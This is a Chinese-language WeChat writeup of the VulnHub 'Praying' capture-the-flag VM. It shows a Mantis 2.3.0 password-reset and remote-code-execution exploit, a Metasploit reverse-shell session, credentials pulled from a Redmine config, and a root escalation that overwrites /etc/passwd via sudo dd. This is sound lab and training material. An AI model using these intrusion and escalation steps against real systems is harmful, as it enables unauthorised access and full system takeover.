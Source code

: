 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/dvUlZfIcDYR_FN7BHg0ktw)

**0x01** Introduction  

* * *

虚拟机下载页面：http://www.vulnhub.com/entry/praying-1,575/  

Description

```
This is an easy->intermediate boot2root with a mix of real world and ctf. Created in Virtualbox. Goal: Get the root flag. Your feedback is appreciated -- Twitter: @iamv1nc3nt

This works better with VirtualBox rather than VMware.
```

‍

**0x02 Writeup**  

#### 1 getshell

##### 1.1 端口信息

nmap 扫描开放端口

```
PORT      STATE   SERVICE    VERSION
80/tcp     open     http      Apache httpd 2.4.41 ((Ubuntu))
```

##### 1.2 脆弱服务

服务器只开放了 80 端口，访问后为 apache 默认页面，于是用 dirb 跑了一下目录，发现了 admin 目录。

目录扫描：  

```
==> DIRECTORY: http://192.168.56.105/admin/
```

#### 发现后发现为 mantis 的登陆页面

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/zSNEpUdpZQR5kxIIaic9xibbfLbS9r0exHNvCabqhN7eLpMGlg2ibaVBsYQh26HDdreu3JdApCzbkaicyeGCWhzgFQ/640?wx_fmt=jpeg)

测试了一下发现依然存在任意账户口令重置漏洞。修改 aministrator 账户登陆，发现版本为 2.3.0。

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/zSNEpUdpZQR5kxIIaic9xibbfLbS9r0exH0fl4m0SR8yJJ6wJdJSR05wUlCBsdAODITfDvQX7Ul5QFEjp9lRL5hw/640?wx_fmt=jpeg)

利用 searchsploit 直接找到了命令执行代码。

```
Mantis Bug Tracker 2.3.0 - Remote Code E | php/webapps/48818.py
```

于是得到了第一个 shell。

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.56.101:4444 
[*] Command shell session 1 opened (192.168.56.101:4444 -> 192.168.56.105:55892) at 2020-11-26 08:31:16 -0500

id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@praying:/var/www/html$
```

##### 2.2 权限提权  

先做了一些信息收集

```
cat /etc/passwd|grep /bin/bash
root::0:0:root:/root:/bin/bash
mantis:x:1000:1000:praying:/home/mantis:/bin/bash
developer:x:1001:1001:,,,:/home/developer:/bin/bash
projman:x:1002:1002:,,,:/home/projman:/bin/bash
elevate:x:1003:1003:,,,:/home/elevate:/bin/bash
root:x:0:0:root:/root:/bin/bash
mantis:x:1000:1000:praying:/home/mantis:/bin/bash
developer:x:1001:1001:,,,:/home/developer:/bin/bash
projman:x:1002:1002:,,,:/home/projman:/bin/bash
elevate:x:1003:1003:,,,:/home/elevate:/bin/bash

ls -all /home
total 24
drwxr-xr-x  6 root      root      4096 Sep 24 23:01 .
drwxr-xr-x 20 root      root      4096 Sep 24 16:12 ..
drwx------  3 developer developer 4096 Sep 24 20:15 developer
drwx------  4 elevate   elevate   4096 Nov 26 13:12 elevate
drwx------  4 mantis    mantis    4096 Sep 26 23:25 mantis
drwx------  5 projman   projman   4096 Sep 26 23:27 projman
```

发现了用户 mantis，于是查看还有没有该用户相关的文件。

发现存在 / var/www/redmine 目录，进入之后在 database.yml 找到了用户 projman 的口令。

```
adapter: mysql2
  database: redmine
  host: localhost
  username: projman
  password: "!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!"
  # Use "utf8" instead of "utfmb4" for MySQL prior to 5.7.7
  encoding: utf8mb4
```

切换用户登陆，发现该用户下有一个文件为. part1。

```
ls -all
total 36
drwx------ 5 projman projman 4096 Sep 26 23:27 .
drwxr-xr-x 6 root    root    4096 Sep 24 23:01 ..
lrwxrwxrwx 1 projman projman    9 Sep 24 23:19 .bash_history -> /dev/null
-rw-r--r-- 1 projman projman  220 Sep 24 20:11 .bash_logout
-rw-r--r-- 1 projman projman 3771 Sep 24 20:11 .bashrc
drwx------ 2 projman projman 4096 Sep 24 20:13 .cache
drwxrwxr-x 3 projman projman 4096 Sep 24 23:47 .local
-rw-r--r-- 1 projman projman   33 Sep 24 23:47 .part1
-rw-r--r-- 1 projman projman  807 Sep 24 20:11 .profile
drwx------ 2 projman projman 4096 Sep 26 23:27 .ssh
cat .part1
4914CACB6C089C74AEAEB87497AF2FBA
```

将该密码放到 cmd5 破解得到新的用户 elevate 的密码 tequieromucho。

切换到该用户，查看 sudo -l，发现可以 sudo 执行 dd 命令。这个就比较简单了，重写一个 / etc/passwd 取消 root 账户密码，成功获取 root。这是新的 passwd 文件 1.txt。

```
cat 1.txt
root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
........................
```

```
elevate@praying:~$ sudo -u root dd if=1.txt of=/etc/passwd
sudo -u root dd if=1.txt of=/etc/passwd
[sudo] password for elevate: tequieromucho

8+1 records in
8+1 records out
4106 bytes (4.1 kB, 4.0 KiB) copied, 0.000241207 s, 17.0 MB/s
elevate@praying:~$ su - root
su - root
root@praying:~# ls
ls
message  part2  root.txt  snap
root@praying:~# cat root.txt
cat root.txt

 ██▓███   ██▀███  ▄▄▄     ▓██   ██▓ ██▓ ███▄    █   ▄████ 
▓██░  ██▒▓██ ▒ ██▒████▄    ▒██  ██▒▓██▒ ██ ▀█   █  ██▒ ▀█▒
▓██░ ██▓▒▓██ ░▄█ ▒██  ▀█▄   ▒██ ██░▒██▒▓██  ▀█ ██▒▒██░▄▄▄░
▒██▄█▓▒ ▒▒██▀▀█▄ ░██▄▄▄▄██  ░ ▐██▓░░██░▓██▒  ▐▌██▒░▓█  ██▓
▒██▒ ░  ░░██▓ ▒██▒▓█   ▓██▒ ░ ██▒▓░░██░▒██░   ▓██░░▒▓███▀▒
▒▓▒░ ░  ░░ ▒▓ ░▒▓░▒▒   ▓▒█░  ██▒▒▒ ░▓  ░ ▒░   ▒ ▒  ░▒   ▒ 
░▒ ░       ░▒ ░ ▒░ ▒   ▒▒ ░▓██ ░▒░  ▒ ░░ ░░   ░ ▒░  ░   ░ 
░░         ░░   ░  ░   ▒   ▒ ▒ ░░   ▒ ░   ░   ░ ░ ░ ░   ░ 
            ░          ░  ░░ ░      ░           ░       ░ 
 ███▄ ▄███▓ ▄▄▄      ███▄  ░ █ ▄▄▄█████▓ ██▓  ██████      
▓██▒▀█▀ ██▒▒████▄    ██ ▀█   █ ▓  ██▒ ▓▒▓██▒▒██    ▒      
▓██    ▓██░▒██  ▀█▄ ▓██  ▀█ ██▒▒ ▓██░ ▒░▒██▒░ ▓██▄        
▒██    ▒██ ░██▄▄▄▄██▓██▒  ▐▌██▒░ ▓██▓ ░ ░██░  ▒   ██▒     
▒██▒   ░██▒ ▓█   ▓██▒██░   ▓██░  ▒██▒ ░ ░██░▒██████▒▒     
░ ▒░   ░  ░ ▒▒   ▓▒█░ ▒░   ▒ ▒   ▒ ░░   ░▓  ▒ ▒▓▒ ▒ ░     
░  ░      ░  ▒   ▒▒ ░ ░░   ░ ▒░    ░     ▒ ░░ ░▒  ░ ░     
░      ░     ░   ▒     ░   ░ ░   ░       ▒ ░░  ░  ░       
 ██▀███░  ▒█████ ░ ▒█████  ▄▄▄█████▓▓█████ ▓█████▄░ ▐██▌  
▓██ ▒ ██▒▒██▒  ██▒▒██▒  ██▒▓  ██▒ ▓▒▓█   ▀ ▒██▀ ██▌ ▐██▌  
▓██ ░▄█ ▒▒██░  ██▒▒██░  ██▒▒ ▓██░ ▒░▒███   ░██   █▌ ▐██▌  
▒██▀▀█▄  ▒██   ██░▒██   ██░░ ▓██▓ ░ ▒▓█  ▄ ░▓█▄   ▌ ▓██▒  
░██▓ ▒██▒░ ████▓▒░░ ████▓▒░  ▒██▒ ░ ░▒████▒░▒████▓  ▒▄▄   
░ ▒▓ ░▒▓░░ ▒░▒░▒░ ░ ▒░▒░▒░   ▒ ░░   ░░ ▒░ ░ ▒▒▓  ▒  ░▀▀▒  
  ░▒ ░ ▒░  ░ ▒ ▒░   ░ ▒ ▒░     ░     ░ ░  ░ ░ ▒  ▒  ░  ░  
  ░░   ░ ░ ░ ░ ▒  ░ ░ ░ ▒    ░         ░    ░ ░  ░     ░  
   ░         ░ ░      ░ ░              ░  ░   ░     ░     
                                            ░             
```

**PS：**许多人企求着生活的完美结局，殊不知美根本不在结局，而在于追求的过程。

更多精彩

*   [Web 渗透技术初级课程介绍](http://mp.weixin.qq.com/s?__biz=MzU2OTUxOTE2MQ==&mid=2247486030&idx=2&sn=185f303a2f1b5267c0865f117931959d&chksm=fcfc3718cb8bbe0e6f3ca97859e78342852537da2bef3cd76a83cb90ee64a8ca8953b35aa67e&scene=21#wechat_redirect)
    
*   [](http://mp.weixin.qq.com/s?__biz=MzU2OTUxOTE2MQ==&mid=2247486968&idx=1&sn=7f66208298cf2cec57286947ddb8b223&chksm=fcfc30aecb8bb9b8333c1d05976dbdbf33d34f2a0d2b0cdfc41e835d29b9b4bcfc352504f8e4&scene=21#wechat_redirect)[vulnhub 之 VulnImage_1 靶场 writeup](http://mp.weixin.qq.com/s?__biz=MzU2OTUxOTE2MQ==&mid=2247487106&idx=1&sn=a51d3cfedffb4adf84ccd682479b2ee4&chksm=fcfc33d4cb8bbac2ce47aac3bb491c1d9f2b603eaf1a2dd731cf7f11c5cdbb91e39f34ba5b26&scene=21#wechat_redirect)  
    
*   [商务合作](http://mp.weixin.qq.com/s?__biz=MzU2OTUxOTE2MQ==&mid=2247486808&idx=1&sn=f50f15f9a3ab7312a08b1f932292faca&chksm=fcfc300ecb8bb918213c6070d864ffcd70ad27ab6525521c31e9ccaa57bdfa2968360ed7e8fe&scene=21#wechat_redirect)
    

![](https://mmbiz.qpic.cn/mmbiz_png/zSNEpUdpZQSd9wDlUiar0tUpHCYAzrZfTzOvS2SEw9cia9j7d1HKP2bWArPLCegs1XoejVUPu0GkSuZh7Wia7aExA/640?wx_fmt=png)

**如果感觉文章不错，分享让更多的人知道吧！**